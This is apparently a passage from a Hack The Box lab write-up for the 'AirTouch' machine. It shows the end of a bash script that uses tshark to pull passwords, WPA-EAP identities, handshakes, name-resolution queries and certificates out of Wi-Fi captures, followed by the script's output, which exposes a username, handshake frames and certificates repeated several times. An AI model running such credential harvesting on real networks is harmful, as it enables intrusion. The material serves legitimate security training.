            FILETMP=$(mktemp $tmpbase-$SA-$DA.cert.XXXX.der)

            echo -e "\n\n${green}Certificate from $SA to $DA ${reset}"
            echo -e "${green}Saved certificate in the file /tmp/certs/$FILETMP ${reset}"

            echo $CERT | \
            sed "s/://g" | \
            xxd -ps -r | \
            tee /tmp/certs/$FILETMP | \
            openssl x509 -inform der -text;

            rm $FILETMP
        done

        echo -e "\n\n${green}All certs saved in the /tmp/certs/ directory${reset}"

    fi
}

if [ ! -x $(which tshark) ]; then
  echo "${red}tshark not installed${reset}"
  exit 0
fi

while getopts hf:APIHDRNLC flag
do
    case "${flag}" in
        h) HELP=true;;
        f) INPUT=${OPTARG};;
        A) ALL=true;;
        P) PASSWORDS=true;;
        I) IDENTITY=true;;
        H) HANDSHAKES=true;;
        D) DNS=true;;
        R) NBTNS=true;LLMNR=true;;
        N) NBTNS=true;;
        L) LLMNR=true;;
    C) CERT=true;;
    esac
done

if [ "$HELP" = true ] ;
then
    help
    exit 0
fi

if [ -z "$INPUT" ] ; then
    echo "File or folder needed"
    echo
    help
    exit 1
fi


if [ -z "$ALL" ] && [ -z "$PASSWORDS" ] && [ -z "$IDENTITY" ] && [ -z "$HANDSHAKES" ] && [ -z "$DNS" ] && [ -z "$NBTNS" ] && [ -z "$LLMNR" ] && [ -z "$CERT" ]; then
    echo "Argument needed"
    help
    exit 2
fi

if [ "$#" -lt 3 ]; then
        echo "Argument needed"
        help
        exit 2
fi

#Check if INPUT is a folder
if [[ -d "$INPUT" ]]
then
    for F in $INPUT/*cap ; do
        if [ -f "$F" ] ; then
            FILE=$F
            filter
        else
            echo "${red}Warning: Some problem with \"$F\"${reset}"
        fi
    done
else
    FILE=$INPUT
    filter
fi


# # TODO
#- Passwords: basic auth, FTP, TFTP, SMB, SMB2, SMTP, POP3, IMAP
```

We found a username (`r4ulcl`) and a few more information about the `certificates` that are being used for the authentication.

```shell
┌──(kali㉿kali)-[/media/…/HTB/Machines/AirTouch/files]
└─$ ./pcapFilter.sh -A -f scanc44-01.cap 

FILE: scanc44-01.cap

        Get POST passwords

tshark: Only string type fields can be used as parameter for lower()
    http.request.method == POST and (lower(http.file_data) contains "pass" or lower(http.request.line) contains "pass" or tcp contains "login")
                                           ^~~~~~~~~~~~~~

        Get WPA-EAP Identities

DESTINATION             SOURCE                  IDENTITY
ac:8b:a9:aa:3f:d2       28:6c:07:12:ee:a1       AirTouch\\r4ulcl
ac:8b:a9:aa:3f:d2       c8:8a:9a:6f:f9:d2       AirTouch\\r4ulcl
ac:8b:a9:f3:a1:13       28:6c:07:12:ee:f3       AirTouch\\r4ulcl

        Get Handshakes in pcap

   43  13.680000 ac:8b:a9:aa:3f:d2 → c8:8a:9a:6f:f9:d2 EAPOL 155 Key (Message 1 of 4)
   44  13.680000 c8:8a:9a:6f:f9:d2 → ac:8b:a9:aa:3f:d2 EAPOL 155 Key (Message 2 of 4)
   98  28.671808 ac:8b:a9:f3:a1:13 → 28:6c:07:12:ee:f3 EAPOL 155 Key (Message 1 of 4)
   99  28.672320 28:6c:07:12:ee:f3 → ac:8b:a9:f3:a1:13 EAPOL 155 Key (Message 2 of 4)
  160  46.789568 ac:8b:a9:aa:3f:d2 → c8:8a:9a:6f:f9:d2 EAPOL 155 Key (Message 1 of 4)
  161  46.789568 c8:8a:9a:6f:f9:d2 → ac:8b:a9:aa:3f:d2 EAPOL 155 Key (Message 2 of 4)
  218  68.778816 ac:8b:a9:f3:a1:13 → 28:6c:07:12:ee:f3 EAPOL 155 Key (Message 1 of 4)
  219  68.778816 28:6c:07:12:ee:f3 → ac:8b:a9:f3:a1:13 EAPOL 155 Key (Message 2 of 4)
  268  72.681024 ac:8b:a9:aa:3f:d2 → 28:6c:07:12:ee:a1 EAPOL 155 Key (Message 1 of 4)
  269  72.681536 28:6c:07:12:ee:a1 → ac:8b:a9:aa:3f:d2 EAPOL 155 Key (Message 2 of 4)
  340 108.884288 ac:8b:a9:aa:3f:d2 → c8:8a:9a:6f:f9:d2 EAPOL 155 Key (Message 1 of 4)
  341 108.884288 c8:8a:9a:6f:f9:d2 → ac:8b:a9:aa:3f:d2 EAPOL 155 Key (Message 2 of 4)
  392 115.792640 ac:8b:a9:aa:3f:d2 → 28:6c:07:12:ee:a1 EAPOL 155 Key (Message 1 of 4)
  393 115.793152 28:6c:07:12:ee:a1 → ac:8b:a9:aa:3f:d2 EAPOL 155 Key (Message 2 of 4)
  460 153.867904 ac:8b:a9:f3:a1:13 → 28:6c:07:12:ee:f3 EAPOL 155 Key (Message 1 of 4)
  461 153.867904 28:6c:07:12:ee:f3 → ac:8b:a9:f3:a1:13 EAPOL 155 Key (Message 2 of 4)
  512 158.985664 ac:8b:a9:aa:3f:d2 → c8:8a:9a:6f:f9:d2 EAPOL 155 Key (Message 1 of 4)
  513 158.985664 c8:8a:9a:6f:f9:d2 → ac:8b:a9:aa:3f:d2 EAPOL 155 Key (Message 2 of 4)
  568 171.890432 ac:8b:a9:aa:3f:d2 → 28:6c:07:12:ee:a1 EAPOL 155 Key (Message 1 of 4)
  569 171.890944 28:6c:07:12:ee:a1 → ac:8b:a9:aa:3f:d2 EAPOL 155 Key (Message 2 of 4)

        Get DNS querys


        Get NBTNS querys in file to responder


        Get LLMNR querys in file to responder

mkdir: cannot create directory ‘/tmp/certs/’: File exists


Certificate from ac:8b:a9:aa:3f:d2 to c8:8a:9a:6f:f9:d2 
Saved certificate in the file /tmp/certs/scanc44-01.cap-ac:8b:a9:aa:3f:d2-c8:8a:9a:6f:f9:d2.cert.3WYx.der 
Certificate:
    Data:
        Version: 3 (0x2)
        Serial Number: 2 (0x2)
        Signature Algorithm: sha256WithRSAEncryption
        Issuer: C=ES, ST=Madrid, L=Madrid, O=AirTouch, OU=Certificate Authority, CN=AirTouch CA, emailAddress=ca@AirTouch.htb
        Validity
            Not Before: Feb 27 17:07:54 2024 GMT
            Not After : Feb 24 17:07:54 2034 GMT
        Subject: C=ES, L=Madrid, O=AirTouch, OU=Server, CN=AirTouch CA, emailAddress=server@AirTouch.htb
        Subject Public Key Info:
            Public Key Algorithm: rsaEncryption
                Public-Key: (2048 bit)
                Modulus:
                    00:c6:02:94:6c:2f:51:a1:0d:f6:f4:b8:a6:97:42:
                    6e:fe:dd:c7:04:53:02:ed:41:ec:07:6d:ec:d7:68:
                    5c:bf:d2:ed:e0:99:bf:57:2a:ea:55:68:72:55:1c:
                    aa:fa:91:ab:83:b1:e1:27:2a:f5:98:ee:68:6f:ba:
                    dc:f3:76:09:6c:dc:a0:a7:3c:92:d2:99:ec:6d:39:
                    3f:b9:52:87:bc:2e:f4:68:0d:f8:43:70:1c:ad:6b:
                    d3:a2:b4:62:14:a1:50:f7:16:e7:05:3c:e4:61:25:
                    2f:75:ec:1e:7e:4a:5d:81:63:97:39:1f:c8:5c:ff:
                    cc:2d:d2:9b:30:17:63:84:fb:ed:85:ce:53:ab:92:
                    e0:b8:fd:a1:b7:4d:82:d9:7f:8b:65:2d:3f:30:9c:
                    98:de:71:54:b1:97:66:7a:49:31:0d:37:d3:a8:28:
                    94:39:9c:87:61:14:38:61:8f:8e:f5:16:8d:b2:d5:
                    f0:58:da:93:3d:d2:dd:49:41:92:5d:3e:55:cb:4b:
                    5e:88:dc:aa:46:f6:5d:64:3b:51:90:8a:01:b7:9c:
                    aa:53:07:d9:61:cc:e8:63:13:a9:27:6b:e6:32:90:
                    c0:f9:7b:c4:e4:63:3e:53:5c:be:9d:a1:23:42:0f:
                    81:f6:71:d6:7a:9d:26:a8:ed:ab:40:81:02:55:bc:
                    c7:95
                Exponent: 65537 (0x10001)
        X509v3 extensions:
            Netscape Cert Type: 
                SSL Server
            X509v3 Key Usage: 
                Digital Signature, Non Repudiation, Key Encipherment
            X509v3 Extended Key Usage: 
                Microsoft Server Gated Crypto, Netscape Server Gated Crypto, TLS Web Server Authentication
            X509v3 Subject Key Identifier: 
                11:AB:41:6D:92:7E:4E:04:30:4D:48:D1:FC:E8:80:B8:E2:1B:07:9A
            X509v3 Authority Key Identifier: 
                67:07:40:7B:A9:AF:C8:BF:EE:95:0E:35:0C:80:95:22:A2:7A:1C:91
    Signature Algorithm: sha256WithRSAEncryption
    Signature Value:
        59:ff:27:06:fe:f1:ab:ba:eb:1a:3f:8f:ae:f6:25:31:a2:e8:
        09:d3:fb:45:17:75:82:24:9a:ca:7f:99:63:ba:81:78:e3:5d:
        54:eb:54:a3:29:e7:4c:b5:9c:bf:77:d3:57:07:07:84:70:87:
        50:4e:ce:83:0e:8b:c1:df:79:61:08:98:27:c3:ea:8f:52:f8:
        1b:97:bb:b1:6d:ad:25:11:9d:fd:f4:59:a0:69:79:e9:65:3b:
        b7:d2:a5:95:9b:4c:45:b9:b8:ac:87:7c:15:fb:58:b1:a1:65:
        f2:ac:e7:c8:ba:11:01:f6:4b:90:89:32:71:64:5d:20:1a:ee:
        ff:aa:7f:ae:fb:f1:c3:26:46:5d:3f:dc:57:92:45:23:a8:bd:
        bb:9e:17:50:0e:9f:63:0d:af:f2:f2:59:7c:e2:6a:58:91:87:
        44:34:bb:65:e2:41:c1:57:c2:66:e8:b3:ac:4c:21:9d:a2:73:
        67:a4:cd:63:d8:57:56:a9:96:41:5b:78:46:04:1d:b0:81:ca:
        c9:59:e4:7a:4b:76:16:27:78:f9:9f:6f:02:d6:9f:2d:86:24:
        7c:d2:3e:db:82:ef:2e:43:f6:f9:21:d7:cf:d8:7a:e3:76:9c:
        3b:a8:23:15:42:5c:3e:f8:b8:e6:b2:1d:db:88:0e:28:bc:da:
        2e:35:2b:e6
-----BEGIN CERTIFICATE-----
MIIEIDCCAwigAwIBAgIBAjANBgkqhkiG9w0BAQsFADCBmDELMAkGA1UEBhMCRVMx
DzANBgNVBAgTBk1hZHJpZDEPMA0GA1UEBxMGTWFkcmlkMREwDwYDVQQKEwhBaXJU
b3VjaDEeMBwGA1UECxMVQ2VydGlmaWNhdGUgQXV0aG9yaXR5MRQwEgYDVQQDEwtB
aXJUb3VjaCBDQTEeMBwGCSqGSIb3DQEJARYPY2FAQWlyVG91Y2guaHRiMB4XDTI0
MDIyNzE3MDc1NFoXDTM0MDIyNDE3MDc1NFowfDELMAkGA1UEBhMCRVMxDzANBgNV
BAcTBk1hZHJpZDERMA8GA1UEChMIQWlyVG91Y2gxDzANBgNVBAsTBlNlcnZlcjEU
MBIGA1UEAxMLQWlyVG91Y2ggQ0ExIjAgBgkqhkiG9w0BCQEWE3NlcnZlckBBaXJU
b3VjaC5odGIwggEiMA0GCSqGSIb3DQEBAQUAA4IBDwAwggEKAoIBAQDGApRsL1Gh
Dfb0uKaXQm7+3ccEUwLtQewHbezXaFy/0u3gmb9XKupVaHJVHKr6kauDseEnKvWY
7mhvutzzdgls3KCnPJLSmextOT+5Uoe8LvRoDfhDcByta9OitGIUoVD3FucFPORh
JS917B5+Sl2BY5c5H8hc/8wt0pswF2OE++2FzlOrkuC4/aG3TYLZf4tlLT8wnJje
cVSxl2Z6STENN9OoKJQ5nIdhFDhhj471Fo2y1fBY2pM90t1JQZJdPlXLS16I3KpG
9l1kO1GQigG3nKpTB9lhzOhjE6kna+YykMD5e8TkYz5TXL6doSNCD4H2cdZ6nSao
7atAgQJVvMeVAgMBAAGjgY8wgYwwEQYJYIZIAYb4QgEBBAQDAgZAMAsGA1UdDwQE
AwIF4DAqBgNVHSUEIzAhBgorBgEEAYI3CgMDBglghkgBhvhCBAEGCCsGAQUFBwMB
MB0GA1UdDgQWBBQRq0Ftkn5OBDBNSNH86IC44hsHmjAfBgNVHSMEGDAWgBRnB0B7
qa/Iv+6VDjUMgJUionockTANBgkqhkiG9w0BAQsFAAOCAQEAWf8nBv7xq7rrGj+P
rvYlMaLoCdP7RRd1giSayn+ZY7qBeONdVOtUoynnTLWcv3fTVwcHhHCHUE7Ogw6L
wd95YQiYJ8Pqj1L4G5e7sW2tJRGd/fRZoGl56WU7t9KllZtMRbm4rId8FftYsaFl
8qznyLoRAfZLkIkycWRdIBru/6p/rvvxwyZGXT/cV5JFI6i9u54XUA6fYw2v8vJZ
fOJqWJGHRDS7ZeJBwVfCZuizrEwhnaJzZ6TNY9hXVqmWQVt4RgQdsIHKyVnkekt2
Fid4+Z9vAtafLYYkfNI+24LvLkP2+SHXz9h643acO6gjFUJcPvi45rId24gOKLza
LjUr5g==
-----END CERTIFICATE-----


Certificate from ac:8b:a9:f3:a1:13 to 28:6c:07:12:ee:f3 
Saved certificate in the file /tmp/certs/scanc44-01.cap-ac:8b:a9:f3:a1:13-28:6c:07:12:ee:f3.cert.1RzC.der 
Certificate:
    Data:
        Version: 3 (0x2)
        Serial Number: 2 (0x2)
        Signature Algorithm: sha256WithRSAEncryption
        Issuer: C=ES, ST=Madrid, L=Madrid, O=AirTouch, OU=Certificate Authority, CN=AirTouch CA, emailAddress=ca@AirTouch.htb
        Validity
            Not Before: Feb 27 17:07:54 2024 GMT
            Not After : Feb 24 17:07:54 2034 GMT
        Subject: C=ES, L=Madrid, O=AirTouch, OU=Server, CN=AirTouch CA, emailAddress=server@AirTouch.htb
        Subject Public Key Info:
            Public Key Algorithm: rsaEncryption
                Public-Key: (2048 bit)
                Modulus:
                    00:c6:02:94:6c:2f:51:a1:0d:f6:f4:b8:a6:97:42:
                    6e:fe:dd:c7:04:53:02:ed:41:ec:07:6d:ec:d7:68:
                    5c:bf:d2:ed:e0:99:bf:57:2a:ea:55:68:72:55:1c:
                    aa:fa:91:ab:83:b1:e1:27:2a:f5:98:ee:68:6f:ba:
                    dc:f3:76:09:6c:dc:a0:a7:3c:92:d2:99:ec:6d:39:
                    3f:b9:52:87:bc:2e:f4:68:0d:f8:43:70:1c:ad:6b:
                    d3:a2:b4:62:14:a1:50:f7:16:e7:05:3c:e4:61:25:
                    2f:75:ec:1e:7e:4a:5d:81:63:97:39:1f:c8:5c:ff:
                    cc:2d:d2:9b:30:17:63:84:fb:ed:85:ce:53:ab:92:
                    e0:b8:fd:a1:b7:4d:82:d9:7f:8b:65:2d:3f:30:9c:
                    98:de:71:54:b1:97:66:7a:49:31:0d:37:d3:a8:28:
                    94:39:9c:87:61:14:38:61:8f:8e:f5:16:8d:b2:d5:
                    f0:58:da:93:3d:d2:dd:49:41:92:5d:3e:55:cb:4b:
                    5e:88:dc:aa:46:f6:5d:64:3b:51:90:8a:01:b7:9c:
                    aa:53:07:d9:61:cc:e8:63:13:a9:27:6b:e6:32:90:
                    c0:f9:7b:c4:e4:63:3e:53:5c:be:9d:a1:23:42:0f:
                    81:f6:71:d6:7a:9d:26:a8:ed:ab:40:81:02:55:bc:
                    c7:95
                Exponent: 65537 (0x10001)
        X509v3 extensions:
            Netscape Cert Type: 
                SSL Server
            X509v3 Key Usage: 
                Digital Signature, Non Repudiation, Key Encipherment
            X509v3 Extended Key Usage: 
                Microsoft Server Gated Crypto, Netscape Server Gated Crypto, TLS Web Server Authentication
            X509v3 Subject Key Identifier: 
                11:AB:41:6D:92:7E:4E:04:30:4D:48:D1:FC:E8:80:B8:E2:1B:07:9A
            X509v3 Authority Key Identifier: 
                67:07:40:7B:A9:AF:C8:BF:EE:95:0E:35:0C:80:95:22:A2:7A:1C:91
    Signature Algorithm: sha256WithRSAEncryption
    Signature Value:
        59:ff:27:06:fe:f1:ab:ba:eb:1a:3f:8f:ae:f6:25:31:a2:e8:
        09:d3:fb:45:17:75:82:24:9a:ca:7f:99:63:ba:81:78:e3:5d:
        54:eb:54:a3:29:e7:4c:b5:9c:bf:77:d3:57:07:07:84:70:87:
        50:4e:ce:83:0e:8b:c1:df:79:61:08:98:27:c3:ea:8f:52:f8:
        1b:97:bb:b1:6d:ad:25:11:9d:fd:f4:59:a0:69:79:e9:65:3b:
        b7:d2:a5:95:9b:4c:45:b9:b8:ac:87:7c:15:fb:58:b1:a1:65:
        f2:ac:e7:c8:ba:11:01:f6:4b:90:89:32:71:64:5d:20:1a:ee:
        ff:aa:7f:ae:fb:f1:c3:26:46:5d:3f:dc:57:92:45:23:a8:bd:
        bb:9e:17:50:0e:9f:63:0d:af:f2:f2:59:7c:e2:6a:58:91:87:
        44:34:bb:65:e2:41:c1:57:c2:66:e8:b3:ac:4c:21:9d:a2:73:
        67:a4:cd:63:d8:57:56:a9:96:41:5b:78:46:04:1d:b0:81:ca:
        c9:59:e4:7a:4b:76:16:27:78:f9:9f:6f:02:d6:9f:2d:86:24:
        7c:d2:3e:db:82:ef:2e:43:f6:f9:21:d7:cf:d8:7a:e3:76:9c:
        3b:a8:23:15:42:5c:3e:f8:b8:e6:b2:1d:db:88:0e:28:bc:da:
        2e:35:2b:e6
-----BEGIN CERTIFICATE-----
MIIEIDCCAwigAwIBAgIBAjANBgkqhkiG9w0BAQsFADCBmDELMAkGA1UEBhMCRVMx
DzANBgNVBAgTBk1hZHJpZDEPMA0GA1UEBxMGTWFkcmlkMREwDwYDVQQKEwhBaXJU
b3VjaDEeMBwGA1UECxMVQ2VydGlmaWNhdGUgQXV0aG9yaXR5MRQwEgYDVQQDEwtB
aXJUb3VjaCBDQTEeMBwGCSqGSIb3DQEJARYPY2FAQWlyVG91Y2guaHRiMB4XDTI0
MDIyNzE3MDc1NFoXDTM0MDIyNDE3MDc1NFowfDELMAkGA1UEBhMCRVMxDzANBgNV
BAcTBk1hZHJpZDERMA8GA1UEChMIQWlyVG91Y2gxDzANBgNVBAsTBlNlcnZlcjEU
MBIGA1UEAxMLQWlyVG91Y2ggQ0ExIjAgBgkqhkiG9w0BCQEWE3NlcnZlckBBaXJU
b3VjaC5odGIwggEiMA0GCSqGSIb3DQEBAQUAA4IBDwAwggEKAoIBAQDGApRsL1Gh
Dfb0uKaXQm7+3ccEUwLtQewHbezXaFy/0u3gmb9XKupVaHJVHKr6kauDseEnKvWY
7mhvutzzdgls3KCnPJLSmextOT+5Uoe8LvRoDfhDcByta9OitGIUoVD3FucFPORh
JS917B5+Sl2BY5c5H8hc/8wt0pswF2OE++2FzlOrkuC4/aG3TYLZf4tlLT8wnJje
cVSxl2Z6STENN9OoKJQ5nIdhFDhhj471Fo2y1fBY2pM90t1JQZJdPlXLS16I3KpG
9l1kO1GQigG3nKpTB9lhzOhjE6kna+YykMD5e8TkYz5TXL6doSNCD4H2cdZ6nSao
7atAgQJVvMeVAgMBAAGjgY8wgYwwEQYJYIZIAYb4QgEBBAQDAgZAMAsGA1UdDwQE
AwIF4DAqBgNVHSUEIzAhBgorBgEEAYI3CgMDBglghkgBhvhCBAEGCCsGAQUFBwMB
MB0GA1UdDgQWBBQRq0Ftkn5OBDBNSNH86IC44hsHmjAfBgNVHSMEGDAWgBRnB0B7
qa/Iv+6VDjUMgJUionockTANBgkqhkiG9w0BAQsFAAOCAQEAWf8nBv7xq7rrGj+P
rvYlMaLoCdP7RRd1giSayn+ZY7qBeONdVOtUoynnTLWcv3fTVwcHhHCHUE7Ogw6L
wd95YQiYJ8Pqj1L4G5e7sW2tJRGd/fRZoGl56WU7t9KllZtMRbm4rId8FftYsaFl
8qznyLoRAfZLkIkycWRdIBru/6p/rvvxwyZGXT/cV5JFI6i9u54XUA6fYw2v8vJZ
fOJqWJGHRDS7ZeJBwVfCZuizrEwhnaJzZ6TNY9hXVqmWQVt4RgQdsIHKyVnkekt2
Fid4+Z9vAtafLYYkfNI+24LvLkP2+SHXz9h643acO6gjFUJcPvi45rId24gOKLza
LjUr5g==
-----END CERTIFICATE-----


Certificate from ac:8b:a9:aa:3f:d2 to c8:8a:9a:6f:f9:d2 
Saved certificate in the file /tmp/certs/scanc44-01.cap-ac:8b:a9:aa:3f:d2-c8:8a:9a:6f:f9:d2.cert.CWhJ.der 
Certificate:
    Data:
        Version: 3 (0x2)
        Serial Number: 2 (0x2)
        Signature Algorithm: sha256WithRSAEncryption
        Issuer: C=ES, ST=Madrid, L=Madrid, O=AirTouch, OU=Certificate Authority, CN=AirTouch CA, emailAddress=ca@AirTouch.htb
        Validity
            Not Before: Feb 27 17:07:54 2024 GMT
            Not After : Feb 24 17:07:54 2034 GMT
        Subject: C=ES, L=Madrid, O=AirTouch, OU=Server, CN=AirTouch CA, emailAddress=server@AirTouch.htb
        Subject Public Key Info:
            Public Key Algorithm: rsaEncryption
                Public-Key: (2048 bit)
                Modulus:
                    00:c6:02:94:6c:2f:51:a1:0d:f6:f4:b8:a6:97:42:
                    6e:fe:dd:c7:04:53:02:ed:41:ec:07:6d:ec:d7:68:
                    5c:bf:d2:ed:e0:99:bf:57:2a:ea:55:68:72:55:1c:
                    aa:fa:91:ab:83:b1:e1:27:2a:f5:98:ee:68:6f:ba:
                    dc:f3:76:09:6c:dc:a0:a7:3c:92:d2:99:ec:6d:39:
                    3f:b9:52:87:bc:2e:f4:68:0d:f8:43:70:1c:ad:6b:
                    d3:a2:b4:62:14:a1:50:f7:16:e7:05:3c:e4:61:25:
                    2f:75:ec:1e:7e:4a:5d:81:63:97:39:1f:c8:5c:ff:
                    cc:2d:d2:9b:30:17:63:84:fb:ed:85:ce:53:ab:92:
                    e0:b8:fd:a1:b7:4d:82:d9:7f:8b:65:2d:3f:30:9c:
                    98:de:71:54:b1:97:66:7a:49:31:0d:37:d3:a8:28:
                    94:39:9c:87:61:14:38:61:8f:8e:f5:16:8d:b2:d5:
                    f0:58:da:93:3d:d2:dd:49:41:92:5d:3e:55:cb:4b:
                    5e:88:dc:aa:46:f6:5d:64:3b:51:90:8a:01:b7:9c:
                    aa:53:07:d9:61:cc:e8:63:13:a9:27:6b:e6:32:90:
                    c0:f9:7b:c4:e4:63:3e:53:5c:be:9d:a1:23:42:0f:
                    81:f6:71:d6:7a:9d:26:a8:ed:ab:40:81:02:55:bc:
                    c7:95
                Exponent: 65537 (0x10001)
        X509v3 extensions:
            Netscape Cert Type: 
                SSL Server
            X509v3 Key Usage: 
                Digital Signature, Non Repudiation, Key Encipherment
            X509v3 Extended Key Usage: 
                Microsoft Server Gated Crypto, Netscape Server Gated Crypto, TLS Web Server Authentication
            X509v3 Subject Key Identifier: 
                11:AB:41:6D:92:7E:4E:04:30:4D:48:D1:FC:E8:80:B8:E2:1B:07:9A
            X509v3 Authority Key Identifier: 
                67:07:40:7B:A9:AF:C8:BF:EE:95:0E:35:0C:80:95:22:A2:7A:1C:91
    Signature Algorithm: sha256WithRSAEncryption
    Signature Value:
        59:ff:27:06:fe:f1:ab:ba:eb:1a:3f:8f:ae:f6:25:31:a2:e8:
        09:d3:fb:45:17:75:82:24:9a:ca:7f:99:63:ba:81:78:e3:5d:
        54:eb:54:a3:29:e7:4c:b5:9c:bf:77:d3:57:07:07:84:70:87:
        50:4e:ce:83:0e:8b:c1:df:79:61:08:98:27:c3:ea:8f:52:f8:
        1b:97:bb:b1:6d:ad:25:11:9d:fd:f4:59:a0:69:79:e9:65:3b:
        b7:d2:a5:95:9b:4c:45:b9:b8:ac:87:7c:15:fb:58:b1:a1:65:
        f2:ac:e7:c8:ba:11:01:f6:4b:90:89:32:71:64:5d:20:1a:ee:
        ff:aa:7f:ae:fb:f1:c3:26:46:5d:3f:dc:57:92:45:23:a8:bd:
        bb:9e:17:50:0e:9f:63:0d:af:f2:f2:59:7c:e2:6a:58:91:87:
        44:34:bb:65:e2:41:c1:57:c2:66:e8:b3:ac:4c:21:9d:a2:73:
        67:a4:cd:63:d8:57:56:a9:96:41:5b:78:46:04:1d:b0:81:ca:
        c9:59:e4:7a:4b:76:16:27:78:f9:9f:6f:02:d6:9f:2d:86:24:
        7c:d2:3e:db:82:ef:2e:43:f6:f9:21:d7:cf:d8:7a:e3:76:9c:
        3b:a8:23:15:42:5c:3e:f8:b8:e6:b2:1d:db:88:0e:28:bc:da:
        2e:35:2b:e6
-----BEGIN CERTIFICATE-----
MIIEIDCCAwigAwIBAgIBAjANBgkqhkiG9w0BAQsFADCBmDELMAkGA1UEBhMCRVMx
DzANBgNVBAgTBk1hZHJpZDEPMA0GA1UEBxMGTWFkcmlkMREwDwYDVQQKEwhBaXJU
b3VjaDEeMBwGA1UECxMVQ2VydGlmaWNhdGUgQXV0aG9yaXR5MRQwEgYDVQQDEwtB
aXJUb3VjaCBDQTEeMBwGCSqGSIb3DQEJARYPY2FAQWlyVG91Y2guaHRiMB4XDTI0
MDIyNzE3MDc1NFoXDTM0MDIyNDE3MDc1NFowfDELMAkGA1UEBhMCRVMxDzANBgNV
BAcTBk1hZHJpZDERMA8GA1UEChMIQWlyVG91Y2gxDzANBgNVBAsTBlNlcnZlcjEU
MBIGA1UEAxMLQWlyVG91Y2ggQ0ExIjAgBgkqhkiG9w0BCQEWE3NlcnZlckBBaXJU
b3VjaC5odGIwggEiMA0GCSqGSIb3DQEBAQUAA4IBDwAwggEKAoIBAQDGApRsL1Gh
Dfb0uKaXQm7+3ccEUwLtQewHbezXaFy/0u3gmb9XKupVaHJVHKr6kauDseEnKvWY
7mhvutzzdgls3KCnPJLSmextOT+5Uoe8LvRoDfhDcByta9OitGIUoVD3FucFPORh
JS917B5+Sl2BY5c5H8hc/8wt0pswF2OE++2FzlOrkuC4/aG3TYLZf4tlLT8wnJje
cVSxl2Z6STENN9OoKJQ5nIdhFDhhj471Fo2y1fBY2pM90t1JQZJdPlXLS16I3KpG
9l1kO1GQigG3nKpTB9lhzOhjE6kna+YykMD5e8TkYz5TXL6doSNCD4H2cdZ6nSao
7atAgQJVvMeVAgMBAAGjgY8wgYwwEQYJYIZIAYb4QgEBBAQDAgZAMAsGA1UdDwQE
AwIF4DAqBgNVHSUEIzAhBgorBgEEAYI3CgMDBglghkgBhvhCBAEGCCsGAQUFBwMB
MB0GA1UdDgQWBBQRq0Ftkn5OBDBNSNH86IC44hsHmjAfBgNVHSMEGDAWgBRnB0B7
qa/Iv+6VDjUMgJUionockTANBgkqhkiG9w0BAQsFAAOCAQEAWf8nBv7xq7rrGj+P
rvYlMaLoCdP7RRd1giSayn+ZY7qBeONdVOtUoynnTLWcv3fTVwcHhHCHUE7Ogw6L
wd95YQiYJ8Pqj1L4G5e7sW2tJRGd/fRZoGl56WU7t9KllZtMRbm4rId8FftYsaFl
8qznyLoRAfZLkIkycWRdIBru/6p/rvvxwyZGXT/cV5JFI6i9u54XUA6fYw2v8vJZ
fOJqWJGHRDS7ZeJBwVfCZuizrEwhnaJzZ6TNY9hXVqmWQVt4RgQdsIHKyVnkekt2
Fid4+Z9vAtafLYYkfNI+24LvLkP2+SHXz9h643acO6gjFUJcPvi45rId24gOKLza
LjUr5g==
-----END CERTIFICATE-----


Certificate from ac:8b:a9:f3:a1:13 to 28:6c:07:12:ee:f3 
Saved certificate in the file /tmp/certs/scanc44-01.cap-ac:8b:a9:f3:a1:13-28:6c:07:12:ee:f3.cert.70Ap.der 
Certificate:
    Data:
        Version: 3 (0x2)
        Serial Number: 2 (0x2)
        Signature Algorithm: sha256WithRSAEncryption
        Issuer: C=ES, ST=Madrid, L=Madrid, O=AirTouch, OU=Certificate Authority, CN=AirTouch CA, emailAddress=ca@AirTouch.htb
        Validity
            Not Before: Feb 27 17:07:54 2024 GMT
            Not After : Feb 24 17:07:54 2034 GMT
        Subject: C=ES, L=Madrid, O=AirTouch, OU=Server, CN=AirTouch CA, emailAddress=server@AirTouch.htb
        Subject Public Key Info:
            Public Key Algorithm: rsaEncryption
                Public-Key: (2048 bit)
                Modulus:
                    00:c6:02:94:6c:2f:51:a1:0d:f6:f4:b8:a6:97:42:
                    6e:fe:dd:c7:04:53:02:ed:41:ec:07:6d:ec:d7:68:
                    5c:bf:d2:ed:e0:99:bf:57:2a:ea:55:68:72:55:1c:
                    aa:fa:91:ab:83:b1:e1:27:2a:f5:98:ee:68:6f:ba:
                    dc:f3:76:09:6c:dc:a0:a7:3c:92:d2:99:ec:6d:39:
                    3f:b9:52:87:bc:2e:f4:68:0d:f8:43:70:1c:ad:6b:
                    d3:a2:b4:62:14:a1:50:f7:16:e7:05:3c:e4:61:25:
                    2f:75:ec:1e:7e:4a:5d:81:63:97:39:1f:c8:5c:ff:
                    cc:2d:d2:9b:30:17:63:84:fb:ed:85:ce:53:ab:92:
                    e0:b8:fd:a1:b7:4d:82:d9:7f:8b:65:2d:3f:30:9c:
                    98:de:71:54:b1:97:66:7a:49:31:0d:37:d3:a8:28:
                    94:39:9c:87:61:14:38:61:8f:8e:f5:16:8d:b2:d5:
                    f0:58:da:93:3d:d2:dd:49:41:92:5d:3e:55:cb:4b:
                    5e:88:dc:aa:46:f6:5d:64:3b:51:90:8a:01:b7:9c:
                    aa:53:07:d9:61:cc:e8:63:13:a9:27:6b:e6:32:90:
                    c0:f9:7b:c4:e4:63:3e:53:5c:be:9d:a1:23:42:0f:
                    81:f6:71:d6:7a:9d:26:a8:ed:ab:40:81:02:55:bc:
                    c7:95
                Exponent: 65537 (0x10001)
        X509v3 extensions:
            Netscape Cert Type: 
                SSL Server
            X509v3 Key Usage: 
                Digital Signature, Non Repudiation, Key Encipherment
            X509v3 Extended Key Usage: 
                Microsoft Server Gated Crypto, Netscape Server Gated Crypto, TLS Web Server Authentication
            X509v3 Subject Key Identifier: 
                11:AB:41:6D:92:7E:4E:04:30:4D:48:D1:FC:E8:80:B8:E2:1B:07:9A
            X509v3 Authority Key Identifier: 
                67:07:40:7B:A9:AF:C8:BF:EE:95:0E:35:0C:80:95:22:A2:7A:1C:91
    Signature Algorithm: sha256WithRSAEncryption
    Signature Value:
        59:ff:27:06:fe:f1:ab:ba:eb:1a:3f:8f:ae:f6:25:31:a2:e8:
        09:d3:fb:45:17:75:82:24:9a:ca:7f:99:63:ba:81:78:e3:5d:
        54:eb:54:a3:29:e7:4c:b5:9c:bf:77:d3:57:07:07:84:70:87:
        50:4e:ce:83:0e:8b:c1:df:79:61:08:98:27:c3:ea:8f:52:f8:
